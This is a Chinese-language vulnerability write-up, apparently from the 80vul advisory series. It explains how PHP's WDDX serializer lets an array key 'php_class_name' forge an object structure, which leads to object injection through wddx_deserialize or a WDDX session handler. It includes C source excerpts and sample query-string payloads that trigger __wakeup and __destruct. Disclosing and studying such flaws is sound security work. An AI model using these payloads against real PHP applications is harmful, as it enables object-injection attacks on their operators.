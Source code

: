 # PHP WDDX Serializier Data Injection Vulnerability


> PHP 在把数组序列化为 WDDX 结构的过程中，没有对数组的键名严格限制，导致可以伪造对象的 WDDX 结构。

i 序列化对象
-------

* * *

PHP 在把对象序列化为 WDDX 结构时，会做如下处理：

```
static void php_wddx_serialize_object(wddx_packet *packet, zval *obj)
...
        php_wddx_add_chunk_static(packet, WDDX_STRUCT_S);
        snprintf(tmp_buf, WDDX_BUF_LEN, WDDX_VAR_S, PHP_CLASS_NAME_VAR);
        php_wddx_add_chunk(packet, tmp_buf);
        php_wddx_add_chunk_static(packet, WDDX_STRING_S);
        php_wddx_add_chunk_ex(packet, class_name->val, class_name->len);
        php_wddx_add_chunk_static(packet, WDDX_STRING_E);
        php_wddx_add_chunk_static(packet, WDDX_VAR_E);
}

```

比如下面代码中的变量 $obj：

```
class ryat {
    var $hi;
    function __wakeup() {
        echo 'hi';
    }
    function __destruct() {
        echo $this->hi, "\n";
    }
}

$obj = new ryat();
$obj->hi = 'ryat';

var_dump(wddx_serialize_value($obj));

```

经过 wddx_serialize_value() 函数序列化的 WDDX 结构如下：

```
<wddxPacket version='1.0'><header/><data><struct><var name='php_class_name'><string>ryat</string></var><var name='hi'><string>ryat</string></var></struct></data></wddxPacket>

```

ii 序列化数组
--------

* * *

PHP 把数组序列化为 WDDX 结构时，会做如下处理：

```
static void php_wddx_serialize_array(wddx_packet *packet, zval *arr)
{
...
    target_hash = HASH_OF(arr);
    ZEND_HASH_FOREACH_KEY(target_hash, idx, key) {
        if (key) {
            is_struct = 1;
            break;
        }

        if (idx != ind) {
            is_struct = 1;
            break;
        }
        ind++;
    } ZEND_HASH_FOREACH_END();

    if (is_struct) {
        php_wddx_add_chunk_static(packet, WDDX_STRUCT_S);
    } else {
        snprintf(tmp_buf, sizeof(tmp_buf), WDDX_ARRAY_S, zend_hash_num_elements(target_hash));
        php_wddx_add_chunk(packet, tmp_buf);
    }

    ZEND_HASH_FOREACH_KEY_VAL(target_hash, idx, key, ent) {
        if (ent == arr) {
            continue;
        }

        if (is_struct) {
            if (key) {
                php_wddx_serialize_var(packet, ent, key TSRMLS_CC);
            } else {
                key = zend_long_to_str(idx);
                php_wddx_serialize_var(packet, ent, key TSRMLS_CC);
                zend_string_release(key);
            }
        } else {
            php_wddx_serialize_var(packet, ent, NULL TSRMLS_CC);
        }
    } ZEND_HASH_FOREACH_END();

    if (is_struct) {
        php_wddx_add_chunk_static(packet, WDDX_STRUCT_E);
    } else {
        php_wddx_add_chunk_static(packet, WDDX_ARRAY_E);
    }
}
...
void php_wddx_serialize_var(wddx_packet *packet, zval *var, zend_string *name TSRMLS_DC)
{
...
    if (name) {
        char *tmp_buf;
        zend_string *name_esc;

        name_esc = php_escape_html_entities(name->val, name->len, 0, ENT_QUOTES, NULL TSRMLS_CC);
        tmp_buf = emalloc(name_esc->len + sizeof(WDDX_VAR_S));
        snprintf(tmp_buf, name_esc->len + sizeof(WDDX_VAR_S), WDDX_VAR_S, name_esc->val);
        php_wddx_add_chunk(packet, tmp_buf);
        efree(tmp_buf);
        zend_string_release(name_esc);
    }

```

从上面的代码可以看到，数组序列化后的 WDDX 结构主要分为两种，一种是没有指定键名的数组的处理，比如下面代码中的变量 $arr：

```
$arr = array('hi', 'ryat');

var_dump(wddx_serialize_value($arr));

```

经过 wddx_serialize_value() 函数序列化的 WDDX 结构如下：

```
<wddxPacket version='1.0'><header/><data><array length='2'><string>hi</string><string>ryat</string></array></data></wddxPacket>

```

另一种则是对指定键名的数组的处理，比如下面代码中的变量 $arr：

```
$arr = array('hi'=>'hi', 'ryat'=>'ryat');

var_dump(wddx_serialize_value($arr));

```

经过 wddx_serialize_value() 函数序列化的 WDDX 结构如下：

```
<wddxPacket version='1.0'><header/><data><struct><var name='hi'><string>hi</string></var><var name='ryat'><string>ryat</string></var></struct></data></wddxPacket>

```

iii 伪造对象的 WDDX 结构
-----------------

* * *

通过上面的分析，简单了解 WDDX 结构存储 PHP 数组和对象的具体格式，对象的存储格式和指定键名的数组的存储格式非常接近，区别只在于，对象的存储格式多了对类名的存储：

```
<var name='php_class_name'><string>ryat</string></var>

```

PHP 在把数组序列化 WDDX 结构过程中，仅仅调用了 php_escape_html_entities() 函数处理，然后直接构造 WDDX_VAR_S：

```
#define WDDX_VAR_S              "<var name='%s'>"

```

那么如果数组中存在一个值为 php_class_name 的键名，就可以构造出：

```
<var name='php_class_name'><string>ryat</string></var>

```

这时序列化的 WDDX 结构就和对象的一样了，如下面代码中的变量 $arr：

```
$arr = array('php_class_name'=>'ryat', 'hi'=>'ryat');

var_dump(wddx_serialize_value($arr));

```

经过 wddx_serialize_value() 函数序列化的 WDDX 结构如下：

```
<wddxPacket version='1.0'><header/><data><struct><var name='php_class_name'><string>ryat</string></var><var name='hi'><string>ryat</string></var></struct></data></wddxPacket>

```

可以看到，序列化的 WDDX 结构和第一个例子中的 $obj 对象序列化的 WDDX 结构是一样的，也就说，通过一个特殊的数组伪造了一个对象的 WDDX 结构：）

iv 安全隐患
-------

* * *

PHP 反序列化 WDDX 结构的处理过程类似于 unserialize() 函数，通过对特定的 WDDX 结构反序列化，可以生成一个对象，并执行类的 __wakeup() 方法（如果存在的话），在对象被销毁或者脚本执行结束时会执行类的 __destruct() 方法（如果存在的话），那么安全隐患随之而来。而比 unserialize() 函数更危险的是，反序列化过程和序列化过程都可能存在安全问题：）

### i) 利用 wddx_deserialize() 函数

```
class ryat {
    var $hi;
    function __wakeup() {
        echo 'hi';
    }
    function __destruct() {
        echo $this->hi, "\n";
    }
}

wddx_deserialize(wddx_serialize_value($_GET['arr']);

```

通过下面的方式，可以成功执行 __wakeup() 方法和 __destruct() 方法：）

```
?arr[php_class_name]=ryat&arr[hi]=ryat

```

### ii) 利用 $_SESSION 进行序列化和反序列化

PHP 在存储和读取 $_SESSION 时会对数据进行序列化和反序列化，默认情况下与 serialize() 函数和 unserialize() 函数的处理方式相同，但是 PHP 提供了一个 session.serialize_handler 配置选项，可以使用 WDDX 格式进行序列化和反序列化：）

```
ini_set('session.serialize_handler', 'wddx');
session_start();

$_SESSION['arr'] = $_GET['arr'];

```

通过下面的方式，就可以伪造成对象的 WDDX 结构：）

```
?arr[php_class_name]=ryat&arr[hi]=ryat

```

from:[http://www.80vul.com/pch/pch-014.txt](http://www.80vul.com/pch/pch-014.txt)